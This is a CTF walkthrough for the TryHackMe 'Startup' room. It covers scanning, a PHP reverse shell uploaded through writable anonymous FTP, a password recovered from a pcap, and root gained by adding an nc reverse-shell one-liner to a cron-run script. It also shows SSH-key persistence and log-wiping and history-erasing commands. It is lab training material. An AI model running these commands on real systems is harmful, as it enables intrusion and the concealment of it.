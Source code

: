 ```yaml
---
title: "THM:startup"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/startup"
category: "CTF"
tags: ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,ssh2john,linpeas,privesc,cron
---
```

# THM:startup

URL: https://tryhackme.com/room/startup [Easy]

Tags: 
<div style="margin-left: 5px;">
{% assign tags = page.tags | split: "," %}
{% for tag in tags %}
<a href="../search/?q={{tag}}" title="Click to search by this tag"><span class="badge bg-secondary">{{tag}}</span></a>
{% endfor %}
</div>
<hr>

## Reconnaissance

Description of the room:

> We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Anonymous FTP has an Among Us meme, and a text file telling people to stop leaving memes on that file share. The `ftp` folder is writable. That could be something?

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found:

```python
/files                (Status: 301) [Size: 312] [--> http://10.10.159.60/files/]
```

Also see: [gobuster.log](gobuster.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Nothing interesting found.


Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Since the anonymous FTP folder `/ftp/` is writeable, you can do a `put revshell.php` into that folder, and then execute that reverse shell from the `/files/revshell.php` URL in the browser.

That will get you a primitive shell running as the `www-data` user.

### Privilege Escalation (power user)

First, to privesc into the `lennie` account (you can see their home folder under `/home/`), look in the `incidents` folder for a pcap file. If you download that file and view it with Wireshark, you can see there was a password attempt. It was a bad password attempt for `www-data`, but that IS the password for `lennie`.

Meaning, you can now do `su - lennie` with that newly found password. You are now logged-in as `lennie`.

### Privilege Escalation (root)

The Hint from TryHackMe for root privesc is "scripts". Well, in Lennie's home folder there is a `~/scripts/` folder. In there is a bash script that calls `/etc/print.sh`. In short, it looks like something external kicks off that script, but we don't know what it is.

So, we modify `/etc/print.sh` to reverse shell back to our workstation by adding something like:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8080 >/tmp/f
```

and then listen on your workstation with something like this:

```bash
nc -lvnp 8080
```

After a minute or so, you've got a prompt, and it's a root prompt!


## Maintaining Access

To not have to deal with half-broken shells, I added my SSH public key to `/home/lennie/.ssh/authorized_keys` and set the permissions on that file to `chmod 600 ./authorized_keys`. That way, instead of working out of reverse shells with bad rendering, I could now just:

```bash
ssh lennie@x.x.x.x
```

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/lennie/.bash_history`

## Summary

Completed: [2023-07-20 21:01:11]